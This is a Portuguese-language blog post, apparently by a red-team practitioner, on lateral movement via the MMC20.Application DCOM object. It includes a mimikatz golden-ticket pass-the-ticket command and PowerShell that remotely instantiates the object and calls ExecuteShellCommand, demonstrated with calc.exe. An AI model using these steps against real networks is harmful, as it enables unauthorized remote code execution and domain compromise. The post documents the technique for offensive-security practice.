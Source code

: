 ```yaml
---
layout: post
title: Lateral Movement Technique using Microsft MC20 Component Object (MMC20.Application)
author: nagini
author_url: 
image: /assets/banners/nag.png
description: "Entenda o que é o MMC20.Application e como utilizá-lo para movimentação lateral em uma rede"
toc: true
---
```


```
           ___
          (___)     .-----------.
   ____          ,- | fuck off! |
 _\___ \  |\_/| /   `-----------` 
\     \ \/ , , \ _ _
 \__   \ \ ="= //|||\
  |===  \/____)_)||||
  \______|    | |||||
      _/_|  | | =====
     (_/  \_)_)   
  _________________
 (                _)
  (__   '          )
    (___    _____)
        '--'
```

Aqueles que estão familiarizados com engagements em Red Team, devem conhecer técnicas
comuns de movimentação lateral, dentre elas, as mais comuns são WinRM, wmiexec/psexec,
smbexec, Scheduled Tasks... Porém, muitas das vezes ao realizar um procedimento tão conhecido
pode sempre acabar gerando algumas flags que denunciariam o engage dos operadores.

# Introdução

Introduzindo o cenário, após efetuar um Kerberoasting e conseguir um acesso administrativo
em um servidor comum, utilizei essa técnica para fazer a movimentação lateral, posteriormente
eu utilizaria essa técnica em todo o domínio com um golden ticket impersonated, tornando essa
movimentação possível sem necessidade de credenciais.

Mas para entender como essa técnica funciona, é preciso entender um pouco sobre [COM (Component
Object Model)](https://learn.microsoft.com/en-us/windows/win32/com/the-component-object-model) e [DCOM (Distributed Component Object Model)](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dcom/4a893f3d-bd29-48cd-9f43-d9777a4415b0)

# Component Object Model (COM)

COM é um sistema com um set de funções chamado de interface, com a finalidade de
criar componentes, objetos que serão posteriormente usados para interagir com outros
objetos. Eles podem ser instanciados em um processo comum, em uma thread ou até mesmo
remotamente

Basta utilizar qualquer linguagem do framework .NET para compilar um COM, a linguagem
e sua implementação são responsabilidades do programador.

# Distributed Component Object Model (DCOM)
 
Essa implementação torna possível a comunicação desses componentes pela rede, desde
que a interface exista nas duas máquinas. Cumprindo esse único requisito, você pode especificar
um UNC path ou diretamente o servidor e começar a comunicação, desde que você tenha tal
permissão.

Personificando golden ticket 
```powershell
PS> mimikatz.exe "kerberos::ptt C:\Tickets\gold.kirbi"
* File: 'C:\Tickets\gold.kirbi': OK```

Com o ticket carregado na memória (personificado), você pode utilizar o próprio 
PowerShell para interagir localmente ou remotamente com algum componente, para
realizar a movimentação lateral, vamos trabalhar remotamente com a interface.

Antes de mais nada, utilizamos a função CreateInstance com o Macro GetTypeFromProgID
para nos conectarmos a interface remotamente, feito isso, podemos listar todas suas
funções

Para a exploração, vou usar a classe MMC20.Application da Microsoft, após estabelecer a 
conexão com ela, podemos listar as funções da interface e usar e abusar delas para comprometer
o servidor.

Realizando a conexão com a DCOM remotamente e listando suas funções
```PowerShell
PS> $dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.1.10"))
PS> $dcom.Document.ActiveView | Get-Member

Name                    MemberType                Definition
----                    ----------                ----------
ExecuteShellCommand     Method                    void ExecuteShellCommand(string, string, string, string)
```

Tendo em vista que a conexão foi estabelecida com sucesso, podemos 
invokar esse método, basta seguir sua definição.

Realizando conexão com a classe MMC20.Application (DCOM)
```powershell
PS> $dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.1.10"))
PS> $dcom.Document.ActiveView.ExecuteShellCommand("C:\Windows\System32\calc.exe",$null,$null,7)

C:\Windows\System32> tasklist | findstr "calc.exe"
calc.exe        6467 Console    1   3 922 K
```

